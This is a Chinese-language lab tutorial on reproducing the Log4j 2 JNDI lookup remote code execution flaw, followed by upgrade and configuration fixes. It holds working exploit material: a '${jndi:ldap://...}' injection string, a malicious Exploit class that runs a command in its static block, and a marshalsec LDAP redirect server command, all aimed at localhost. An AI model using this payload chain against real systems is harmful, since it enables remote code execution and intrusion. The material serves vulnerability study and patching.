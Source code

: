 # Log4j 的远程代码执行

## 影响版本

Apache Log4j 2.x <= 2.14.1 版本均回会受到影响。

## lookup 功能造成的漏洞

Log4j 是一款开源 Java 日志记录工具。Log4j 2 是对 Log4j 的重大升级，此次漏洞的出现，正是由用于 Log4j 2 提供的 lookup 功能造成的，该功能允许开发者通过一些协议去读取相应环境中的配置。但在实现的过程中，并未对输入进行严格的判断，从而造成漏洞的发生。

## 环境搭建创建一个新的maven项目，并导入Log4j的依赖包

```xml
<dependency>
	<groupId>org.apache.logging.log4j</groupId>
	<artifactId>log4j-core</artifactId>
	<version>2.14.1</version>
</dependency>
```

## 漏洞复现

**poc.java**

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

class LogTest {
    public static final Logger logger = LogManager.getLogger();

    public static void main(String[] args) {
        logger.error("${jndi:ldap://localhost:9999/Exploit}");
    }
}
```

**恶意类Exploit.class**

exp.java

```java
class Exploit {
    static {
        System.err.println("Pwned");
        try {
            String cmds = "calc";
            Runtime.getRuntime().exec(cmds);
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
```

执行javac exp.java

**使用marshalsec-0.0.3-SNAPSHOT-all.jar本地开启一个LDAP服务**

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer
"http://127.0.0.1:7777/#Exploit" 8888`

**运行poc.java，即可访问恶意类并执行写在其中的"calc"命令**

![image-20220228213631655](README/image-20220228213631655.png)

## 修复方式

Apache官方已发布新版本完成漏洞修复，建议用户尽快进行自查，并及时升级至最新版本：

> [https://github.com/apache/log...](https://link.segmentfault.com/?enc=5zhTi4nMsRf%2FTpPQ3MkO9w%3D%3D.0fom8wlHG1fkY5yAX5%2FbmN1w5PCVOHeCSUcHJfztuUvHb%2FmeYO7rXtxFrDnGlxmQkADxftd03hpndOJdm4ws9LNS6RvTnyflazhektZRCMU%3D)

建议同时采用如下临时措施进行漏洞防范：

1）添加jvm启动参数-Dlog4j2.formatMsgNoLookups=true；

2）在应用classpath下添加log4j2.component.properties配置文件，文件内容为log4j2.formatMsgNoLookups=true；

3）JDK使用11.0.1、8u191、7u201、6u211及以上的高版本；

4）部署使用第三方防火墙产品进行安全防护。


